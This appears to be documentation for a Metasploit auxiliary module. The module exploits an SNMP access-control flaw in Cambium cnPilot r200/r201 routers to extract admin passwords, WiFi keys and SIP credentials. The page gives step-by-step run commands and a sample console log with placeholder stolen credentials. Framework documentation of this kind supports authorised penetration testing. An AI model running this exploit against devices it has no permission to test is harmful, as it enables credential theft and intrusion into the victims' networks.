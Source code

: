 Cambium cnPilot r200/r201 devices can be administered using SNMP. The device configuration contains IP addresses, keys, passwords, & lots of juicy information. This module exploits an access control flaw, which allows remotely extracting sensitive information such as account passwords, WiFI PSK, & SIP credentials via SNMP Read-Only (RO) community string.

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/cnpilot_r_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set COMMUNITY public```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/snmp/cnpilot_r_snmp_loot
msf auxiliary(cnpilot_r_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(cnpilot_r_snmp_loot) > run

[+] 1.3.3.7, Connected.

[*] Fetching System Information...

[+] SNMP System Name: cnPilot R200P
[+] SNMP System Description: cnPilot R200P 4.3.1-R1
[+] Device UpTime: 666 days, 00:66:60.00
[+] Hardware version: V1.3
[+] Firmware version: 4.3.1-R1(201612201723)

[*] Fetching Login Account Information...

[+] Web Management Admin Login Name: admin
[+] Web Management Admin Login Password: S3cr3t

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: trap
[+] SNMP Trap Server IP Address:

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: wifi_ssid
[+] Wireless Interface Encryption Key: wifi_secret_key
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): WPA2PSK

[*] Fetching SIP Account Information...

[+] SIP Account Number: 123456789
[+] SIP Account Password: 123456789

[+] Cambium cnPilot SNMP loot saved at /root/.msf4/loot/20000000000003_default_1.3.3.7_cambium_cnpilot__12345.txt

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
